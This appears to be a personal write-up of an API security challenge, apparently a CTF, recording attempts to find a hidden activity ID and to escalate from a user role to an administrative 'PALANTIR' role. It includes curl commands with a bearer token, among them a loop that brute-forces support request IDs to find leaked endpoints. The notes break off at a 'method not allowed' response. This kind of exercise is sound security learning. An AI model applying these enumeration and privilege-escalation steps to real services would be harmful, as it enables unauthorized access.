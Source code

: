 1) Task 3: Objective: Uncover the hidden Activity ID associated with the secret meeting about the Moonstone.
   any clues in the the response from /v2/locations/{location_id}/activities?

  - Explore possibility user has messed up (private created as public)
  - the api is broken and displays private true activities
  
    - Endpoint: /v2/activities
    - "id": "fd78acfc-7839-4fee-b654-31a6209e4cb0",
    - **Answer:** fd78acfc-7839-4fee-b654-31a6209e4cb0

1) Task 4: Objective: Create a token imbued with the PALANTIR role to gain administrative access to their systems
    This one is seriously tricky!!!!
    The objective tells us we need to get another token with a different role.
    What role do we have now? /userinfo -> "role": "user"
    Where would it be reasonable to assume that the role is used? support?
    /support/
    ```
    {
      "detail": "Users should use API version v2",
      "exc": "Traceback (most recent call last):\n  File \"/usr/local/lib/python3.10/site-packages/starlette/_exception_handler.py\", line 42, in wrapped_app\n    await app(scope, receive, sender)\n  File \"/usr/local/lib/python3.10/site-packages/starlette/routing.py\", line 73, in app\n    response = await f(request)\n  File \"/usr/local/lib/python3.10/site-packages/fastapi/routing.py\", line 291, in app\n    solved_result = await solve_dependencies(\n  File \"/usr/local/lib/python3.10/site-packages/fastapi/dependencies/utils.py\", line 638, in solve_dependencies\n    solved = await call(**solved_result.values)\n  File \"/src/one_request/auth/dependency.py\", line 143, in __call__\n    if req.check(request):\n  File \"/src/one_request/auth/dependency.py\", line 86, in check\n    raise ApiVersionException(\none_request.exceptions.ApiVersionException: user is not permitted to use this API version\n",
      "role": "user",
      "requested_api_version": "legacy",
      "allowed_api_version": "v2"
    }
    ```
    raise ApiVersionException(\none_request.exceptions.ApiVersionException: user is not permitted to use this API version\n"
    /users/{user_id}
    not allowed since legacy api and users not allowed to use legacy api
    -> cant change role using legacy api since i am a user. cant use support api since i am a user.
    /register with role specified -> role: user
    are there any other endpoints that might alter the role? response code from /v2/users/{user_id} states that role will be deleted
    deleted != user - will it work?
    /userinfo - role is deleted
    get a new token using legacy api
    test /support/summary - should get response
    GET /support/{request_id} does not find any
    PUT /support/{request_id} leaks info when not finding request - lets brute curl with new token
    ```for i in {1..10}; do echo $i; curl -X 'PUT'   "https://one-request.malteksolutions.com/support/$i?message=asdasd"   -H 'accept: application/json'   -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhcGlfdmVyc2lvbiI6ImxlZ2FjeSIsInVzZXJfaWQiOiIxOTRlZjkxNS1jZjZiLTRkNzQtYmI1Yi1mMzY4MTJiNGQ4OWMiLCJuYW1lIjoiQSBuYW1lbWVuIiwiZW1haWwiOiJuYW1lbWVuQGV4YW1wbGUuY29tIiwicm9sZSI6ImRlbGV0ZWQiLCJleHBpcmVzIjoxNzUyNjU4NTUzLjQ3MzcyNn0.U1mau0A3aFZNZQAth1kXT8nsqrac4J9huMz4eivPnCk' | grep palantir; done```
    /palantir/glimpse
    /palantir/groups/:id/chats
    lets test glimpse
    `curl -X 'PUT' "https://one-request.malteksolutions.com/palantir/glimpse"   -H 'accept: application/json'   -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhcGlfdmVyc2lvbiI6ImxlZ2FjeSIsInVzZXJfaWQiOiIxOTRlZjkxNS1jZjZiLTRkNzQtYmI1Yi1mMzY4MTJiNGQ4OWMiLCJuYW1lIjoiQSBuYW1lbWVuIiwiZW1haWwiOiJuYW1lbWVuQGV4YW1wbGUuY29tIiwicm9sZSI6ImRlbGV0ZWQiLCJleHBpcmVzIjoxNzUyNjU4NTUzLjQ3MzcyNn0.U1mau0A3aFZNZQAth1kXT8nsqrac4J9huMz4eivPnCk'` -> method not allowed